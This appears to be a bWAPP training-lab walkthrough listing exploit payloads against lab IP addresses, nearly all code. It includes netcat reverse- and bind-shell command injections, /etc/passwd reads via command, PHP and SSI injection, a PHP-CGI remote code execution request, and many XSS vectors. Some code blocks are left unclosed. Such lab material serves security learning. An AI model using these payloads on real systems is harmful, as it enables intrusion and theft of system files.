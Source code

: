<b>bWAPP is an insecure open-source web application designed to improve the skills of students, developers or people interested in IT security in order to discover and prevent web vulnerabilities</b>


<h3> my expectation bWAPP is the best unsecure application to test owasp top 10 for Student</h3>
# A1 - Injection

### HTML Injection - Reflected (GET)
htmli_get.php

```
192.168.200.150/bWAPP/htmli_get.php?firstname=%3Ch1%3EHello%3C%2Fh1%3E&lastname=%3Ch2%3EWorld%3C%2Fh2%3E&form=submit
```

### HTML Injection - Reflected (POST)

```
<h1>Hello</h1>
<h2>World</h2>
```
### HTML Injection - Stored (Blog)

Following solution taken from:

```
<div class="code"><iframe SRC="http://192.168.200.130:775" height="0" width="0"></iframe></div>
```
Attacker's machine:
```
nc -lvp 775
```

### OS Command Injection
```
127.0.0.1; cat /etc/passwd
127.0.0.1 & cat /etc/passwd
127.0.0.1 | cat /etc/passwd
127.0.0.1 && nc -vn 192.168.254.128 775 -e /bin/bash
```

Attacker's machine:
```
nc -lvp 775
```


### OS Command Injection - Blind
```
127.0.0.1 | sleep 10
```

### PHP Code Injection

```
192.168.200.130/bWAPP/phpi.php?message=a;echo "what"; $fp = fopen("/etc/passwd","r");$result = fread($fp,8192); echo $result
```

### Server-Side Includes:

```
<!--#echo var="DATE_LOCAL" -->
<!--#exec cmd="cat /etc/passwd" -->
<!--#exec cmd="nc -lvp 775 -e /bin/bash" -->
Attacker's machine:
```
nc -nv 192.168.200.150 775




# A3 - Cross-Site Scripting (XSS) 

### XSS - Reflected (GET)
xss_get.php

```
<script>alert(Hi )</script>
```
### XSS - Reflected (POST)

xss_post.php
```
<script>alert(2017)</script>
```

### XSS - Reflected (JSON)

xss_json.php
```
"}]}';prompt(2017)</script>
```

### XSS - Reflected (AJAX/JSON)

xss_ajax_2-1.php
```
<svg onload=prompt(2017)>
```

### XSS - Reflected (AJAX/XML)
xss_ajax_1-1.php
```
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
```

Alternatively I was able to get XSS to execute on the AJAX called.
```
xss_ajax_1-2.php?title=<html xmlns='http://www.w3.org/1999/xhtml'><script>prompt(2017)</script></html>
```

### XSS - Reflected (Back Button)
Modify Referer header field
```
Referer: ';alert(2017);'
```

### XSS - Reflected (Custom Header)
Add header field
```
bWAPP: <script>alert(2017)</script>
```

### XSS - Reflected (Eval)
```
date=alert(2017)
```

### XSS - Reflected (HREF)
```
Referer: <script>alert(2017)</script>
```

### XSS - Reflected (User-Agent)
```
User-Agent: <script>alert(2017)</script>
```
### PHP CGI Remote Code Execution
```
POST /bWAPP/admin/phpinfo.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.200.150
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 70
Cookie: security_level=0; PHPSESSID=e27e4148fbb0b82028e1cd6e159f4e7a
Connection: close

<?php $r; exec('cat /etc/passwd', $r); echo implode($r, "\n"); die; ?>
```



